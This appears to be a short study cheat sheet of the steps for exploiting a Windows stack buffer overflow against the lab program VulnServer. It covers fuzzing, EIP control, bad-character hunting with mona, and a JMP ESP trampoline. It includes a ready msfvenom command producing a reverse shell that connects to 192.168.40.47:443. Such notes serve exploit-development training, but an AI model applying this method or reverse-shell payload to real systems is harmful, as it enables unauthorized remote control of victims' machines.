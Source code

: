 1. Fuzz it and have it crash with all A's

2. Take control of EIP and one other register (ESP, EAX, etc.)

    A. Use `pattern_create $buffersize` and `pattern_offset $register_value`

3. Find badchars

    A. Use `!mona bytearray -b "\x00"` or use own Python algo (even better)

4. Generate the shellcode and insert it into the script
    
    A. Remember to generate the shellcode excluding the bad chars! Example:
`msfvenom -f python -b '\x00' -p windows/shell_reverse_tcp LHOST=192.168.40.47 LPORT=443 EXITFUNC=thread > revshellwin.py`


    B. Remember to add at least 16 nops in front of the shellcode or it won't work!

5. Find space for the shellcode

    A. Try increasing buffer in necessary

6. Find instruction that will change the execution flow, e.g. JMP ESP / JMP EAX:

    A. Use nasm_shell to obtain intrcution opcodes
    
    B. First find module without ASLR and possible DEP protections: `!mona modules`
    
    C. Second find the instruction inside unprotected module, e.g. `!mona find -s "\xff\xe4" -m VulnServer.exe`
    
    D. Remember that the instruction address must not contain any bad chars!
    
    E. Remember to revert the address in your code! E.g. 0x65d11d71 becomes "\x71\x1d\xd1\x65"

    F. In more complex case when you control ESP but don't have enough space and some other register (e.g. EAX) 
       doesn't point exactly at the beginning of the controllable input you can write
    
    ```nasm    
    add eax, $offset
    jmp eax
    ```    
    
    instructions into ESP, and then put your shellcode into EAX+$offset

7. Test it.
